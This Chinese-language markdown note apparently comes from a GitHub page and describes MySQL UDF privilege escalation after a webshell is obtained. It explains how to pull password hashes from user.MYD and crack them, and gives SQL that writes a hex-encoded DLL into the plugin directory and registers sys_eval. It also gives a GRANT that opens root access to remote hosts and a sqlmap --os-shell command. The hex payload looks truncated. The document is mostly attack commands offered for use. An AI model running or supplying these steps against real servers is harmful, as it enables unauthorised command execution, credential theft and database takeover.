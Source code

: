 # 数据库 udf提权
## 获取数据库密码方式
我们在拿到webshell的情况下，针对mysql数据库，我们可以找寻mysql的安装目录，下面的`user.MYD`文件，用记事本打开。可以找到数据库的密码，通过cmd5进行界面。如`MySQL5.7.26/data/mysql/user.MYD`

![image](https://user-images.githubusercontent.com/71583369/146636472-29f7e7a6-7186-4c08-aad5-29c7718c9baa.png)

- 文件中的密码为MD5加密，可通过解密平台解密
![image](https://user-images.githubusercontent.com/71583369/146636526-3b2e303a-a85b-40a8-a082-e41bf6bf0ffb.png)

有时密码的字符串是分开，需要进行前后拼接，才能成功解密。当密码复杂度高时解不开密码，只能通过数据库配置文件来解。
- 通过直接在数据库中查询来过去密码

## udf提权操作
```
create table temp(data longblob);
insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);
update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);
select data from temp into dumpfile "G://phpstudy_pro//Extensions//MySQL5.7.26//lib//plugin//udf.dll";(此文件路径需根据具体情况进行修改)
create function sys_eval returns string soname 'udf.dll';
```
## 当以上的方法无法成功时，可以开启mysql的外连功能
```
GRANT ALL PRIVILEGES ON *.* TO ‘root’@'%’ IDENTIFIED BY ‘rootpassword’ WITH GRANT OPTION;
```
随后通过sqlmap进行提权，命令如下：
```
sqlmap.py -d mysql://root:root@x.x.x.x:3306/mysql --os-shell
```
有时sqlmap使用时会报错，提示缺少模块，需要安装pymysql
`python pip install pymysql`
参考链接：
- https://blog.csdn.net/qq_42636435/article/details/106852716
- https://blog.csdn.net/weixin_30569033/article/details/97225345
